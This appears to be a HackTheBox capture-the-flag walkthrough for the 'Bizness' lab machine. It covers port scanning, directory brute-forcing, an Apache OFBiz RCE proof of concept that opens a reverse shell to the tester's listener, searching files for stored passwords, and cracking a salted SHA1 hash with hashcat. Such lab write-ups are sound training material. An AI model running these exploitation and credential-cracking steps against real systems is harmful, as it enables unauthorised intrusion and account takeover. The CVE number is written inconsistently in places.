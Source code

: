 +++ 
draft = false
date = 2024-02-02T13:07:16+01:00
title = "Bizness HTB Walkthrough"
description = "testestestestest"
slug = ""
authors = ["Dennis Drebitca"]
tags = ["Hash Cracking", "Hashcat", "CVE-2023-51457", "Dirsearch","Grep","Find"]
categories = []
externalLink = ""
series = ["HTB"]
+++


![image](15.png#center)

[comment]: <> (Insertar imagen de la carátula de la máquina)


The Bizness HTB machine is an easy difficulty level HackTheBox Machine. The main techniques and tools used to crack this machine are:

        - Dirsearch
        - CVE-2023-51467
        - Grep, find and strings
        - Hashcat


## Reconnaissance

We start a broad Nmap scan by executing the following command:

```sh
sudo nmap -sS -T5 -vvv -p- 10.10.11.252 -Pn -oG nmap_inicial
```

Where the arguments mean:

    -sS: SYN port scan
    -T5: Using timing template 5 of NMAP
    -vvv: Triple verbose so NMAP prints a lot of information
    -p-: All ports are scanned
    -Pn: Skips Host Discovery
    -oG: Grep Format

The scan returns the following information:

![image](1.png)

It looks like ports 20 and 80 and 443 are open. Classic open ports for SSH and HTTP/HTTPS. Next, we run a more comprehensive scan on the open ports:

```sh
sudo nmap -sCV -p22,80,443 10.10.11.252 -oN nmap_exhaustivo -v
```

Now the arguments used mean:

    -sCV: Launches all scanning scripts to discover services and versions running on these ports
    -oN: Normal output format
    -v: Single verbose

The results for this second scan are the following:

![image](2.png)

## Directory discovery

Now lets try to enumerate subdirectories via brute force with Dirsearch, a open-source python tool that can be found in [GitHub](https://github.com/maurosoria/dirsearch.git). 

First, we add the website to our /etc/hosts file and then we run the following command:

```sh
dirsearch -u https://bizness.htb/ --exclude-status 403,404
```

![image](5.png)

The directory bruteforce reveals the /control/login page. There is nothing of interest besides the login and Join HTB buttons. 

![image](6.png)

On the down right corner, we can see the release of the OFBiz software.

![image](7.png#center)

Doing some investigation, it turns out that Ofbiz is vulnerable to a authentication bypass and RCE because of [CVE-2023-51467](https://www.cvedetails.com/cve/CVE-2023-51467/ "CVE-2023-51467 security vulnerability details"). 

## Initial access

First we clone a [GitHub PoC](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC) for CVE-2023-51457 written by the researcher abdoghazy2015. Then, for the PoC to work, we have to download ysoserial-all.jar into the same folder.

```sh
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```

The script doesnt work out of the box. However, its because its written to run with openjdk 11. We have the install that version specifically:

```sh
sudo apt-install openjdk-11-jdk
sudo apt-install openjdk-11-jre
```

And then we have to select java 11 by running

```sh
sudo update-alternatives --config java 
```

Now we are ready to execute the exploit. We have to run set up a netcat listener in another terminal by running:

```sh
nc -lvnp 1234
```

This is where we are going to catch the reverse shell. Now, to run the exploit, execute:

```python
python3 exploit.py https://bizness.htb shell 10.10.14.75:1234
```

![image](8.png)

We get the reverse shell.

![image](3.png)

The user flag can be obteined in the /home/ofbiz directory.

![image](4.png)


## Privilege escalation

We now have to enumerate this machine. A quick and easy way is to use the find and grep tools to search for files containing interesting strings like admin and password. If we run the following command...

```sh
find . -type f -name '*Admin*'
```
...we can search for a file that has the string "Admin" in its name. This is how we discover a interesting file:

![image](9.png)
![image](10.png)

By reading the file /framework/resources/templates/AdminUserLoginData.xml, we get some sort of password... but both Hashcat and JohnTheRipper fail to crack it. It might be a salted password, but we have to keep searching in any case.

There is also a Derby database in the machine. There is a lot of data and files, so we need to search efficiently using strings and grep.

```sh
strings -f * | grep -iE "pass"
```

![image](11.png)

It looks like we got another password, in this case it contains the salt. It is the data between the two dollar signs. In this case, the salt is \$d\$.

```sh
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

We have to sanitize the hash first, since it looks encoded. We can use [cyberchef](https://gchq.github.io/CyberChef):

![image](12.png)

Now that we have the hash sanitized, its time to crack it using hashcat.

```sh
echo "b8fd3f41a541a435857a8f3e751cc3a91c174362:d" > hash
```

```sh
hashcat -m 120 -a 0 -d 1 ./hash /usr/share/wordlists/rockyou.txt 
```

We have to use mode 120 for the format of hash that we provided. In this case, it is a SHA1 hash, and the hash format is hash:salt.


![image](13.png)

We got the password!! Now we just have to run su and enter the password to get a root terminal.

![image](14.png)

Lastly, we can grab the root flag and the machine is done!!

![image](15.png#center)

